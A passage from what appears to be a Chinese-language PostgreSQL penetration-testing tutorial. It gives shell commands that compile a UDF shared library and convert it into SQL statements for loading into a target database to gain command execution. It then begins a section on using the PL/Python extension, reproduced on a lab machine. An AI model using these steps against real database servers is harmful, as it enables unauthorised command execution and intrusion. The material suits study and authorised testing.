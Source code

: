 可以参考 [No-Github/postgresql\_udf\_help](https://github.com/No-Github/postgresql_udf_help)

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```bash<br># 找相应的 dev 扩展包<br>apt-get search postgresql-server-dev<br># 安装 dev 扩展包<br>apt-get install postgresql-server-dev-11<br># apt install postgresql-server-dev-all<br><br># 编译好 .so 文件<br>git clone https://github.com/No-Github/postgresql_udf_help<br>cd postgresql_udf_help<br>gcc -Wall -I/usr/include/postgresql/11/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so<br>strip -sx lib_postgresqludf_sys.so<br><br># 生成分片后的 sql 语句<br>cat lib_postgresqludf_sys.so \| xxd -ps \| tr -d "\n" > 1.txt<br>python2 postgresql_udf_help.py 1.txt > sqlcmd.txt<br>``` |

[![](assets/1710209150-4fac90b2963db31741fb5cf7bc0103e6.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/4.png)

## [](#plpython-%E6%89%A9%E5%B1%95)PL/Python 扩展

PostgreSQL 可以支持多种存储过程语言，官方支持的除了 PL/pgSQL，还有 TCL，Perl，Python 等。

默认 PostgreSQL 不会安装 Python 的扩展，这里我手动在靶机上安装下进行复现

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select version();<br>``` |

先看下版本，pg 14

[![](assets/1710209150-2c5143b1036384c351132695e29e3c95.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/24.png)

搜索下有没有对应的 plpython3u 版本安装

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>apt search postgresql-plpython<br>``` |
